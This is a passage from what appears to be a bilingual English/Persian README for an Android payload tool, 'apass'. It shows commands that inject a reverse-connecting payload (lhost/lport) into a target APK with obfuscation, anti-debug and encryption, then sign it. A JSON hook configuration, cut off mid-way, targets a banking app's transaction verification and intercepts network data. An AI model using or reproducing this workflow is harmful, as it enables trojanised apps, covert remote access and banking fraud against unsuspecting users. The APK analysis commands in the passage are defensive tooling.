### 2. Advanced Usage Examples | مثال‌های پیشرفته استفاده

#### Complex Payload Creation | ایجاد پیلود پیچیده
```bash
# Create advanced payload with multiple protections
apass payload create target.apk \
  --lhost 192.168.1.10 \
  --lport 4444 \
  --technique manifest \
  --technique dex \
  --technique service \
  --obfuscate \
  --anti-debug \
  --encryption aes \
  --compression \
  --string-encrypt \
  --flow-obfuscation \
  --custom-lib /path/to/lib.so

# Verify and sign the payload
apass apk verify output.apk
apass apk sign output.apk keystore.jks \
  --key-alias release_key \
  --proguard \
  --align
```

#### Advanced Analysis | تحلیل پیشرفته
```bash
# Comprehensive APK analysis
apass payload analyze suspect.apk \
  --deep \
  --scan \
  --memory \
  --network \
  --behavior \
  --permissions \
  --export report.json

# ML-based analysis
apass payload analyze-ml suspect.apk \
  --model custom_model.pkl \
  --threshold 0.85 \
  --detailed-report
```

#### Custom Hook Examples | مثال‌های قلاب سفارشی
```json
{
  "operations": [
    {
      "class_name": "com.banking.SecurityManager",
      "method_name": "verifyTransaction",
      "operation": "log_calls",
      "parameters": {
        "log_level": "debug",
        "include_stack_trace": true
      }
    },
    {
      "class_name": "com.app.NetworkManager",
      "method_name": "sendData",
      "operation": "intercept",
      "parameters": {
```